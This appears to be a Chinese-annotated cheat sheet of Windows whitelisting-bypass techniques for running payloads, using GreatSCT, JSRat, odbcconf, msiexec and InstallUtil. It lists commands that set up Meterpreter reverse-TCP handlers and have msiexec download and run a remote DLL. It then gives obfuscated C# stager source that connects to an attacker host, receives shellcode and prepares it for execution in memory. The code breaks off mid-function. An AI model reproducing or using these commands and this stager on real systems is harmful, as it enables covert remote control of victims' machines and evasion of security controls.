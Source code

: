   #### GreatSCT
	>git clone https://github.com/GreatSCT/GreatSCT.git
	>cd GreatSCT/setup&./setup.sh
	>use Bypass
	>list
	>use regasm/meterpreter/rev_tcp.py
	>msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
  #### JSRat
	>JSRat.py -i 192.168.1.107 -p 4444
  #### Odbcconf.exe
	>odbcconf.exe /a {regsvr C:\shell.dll} 可以是任意后缀
  #### Msiexec.exe
	>msiexec /y c:\user\admin\desktop\1.dll
	>msiexec /q /i http://192.168.0.107/dll.dll
  #### InstallUtil.exe
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:y.exe  /unsafe C:\Users\y\Desktop\1.cs
	using System;
	using System.Net;
	using System.Linq;
	using System.Net.Sockets;
	using System.Runtime.InteropServices;
	using System.Threading;
	using System.Configuration.Install;
	using System.Windows.Forms;
	public class GQLBigHgUniLuVx {
		public static void Main()
		{
			while(true)
			{{ MessageBox.Show("doge"); Console.ReadLine();}}
		}
	}
 	[System.ComponentModel.RunInstaller(true)]
	public class esxWUYUTWShqW : System.Configuration.Install.Installer
	{
		public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
		{
			jkmhGrfzsKQeCG.LCIUtRN();
		}
	}
	public class jkmhGrfzsKQeCG
	{ [DllImport("kernel")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
	[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
	[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
	static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
	IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
	Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
	try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
	catch { return null;}
	byte[] UmquAHRnhhpuE = new byte[4];
	XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
	int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE,0);
	byte[] qaYyFq = new byte[kFVRSNnpj +5];
	int SRCDELibA =0;
	while(SRCDELibA < kFVRSNnpj)
	{ SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA +5,(kFVRSNnpj - SRCDELibA)<4096 ? (kFVRSNnpj - SRCDELibA) : 4096,0);}
	byte[] TvvzOgPLqwcFFv =BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
	Array.Copy(TvvzOgPLqwcFFv,0, qaYyFq,1,4); qaYyFq[0]=0xBF;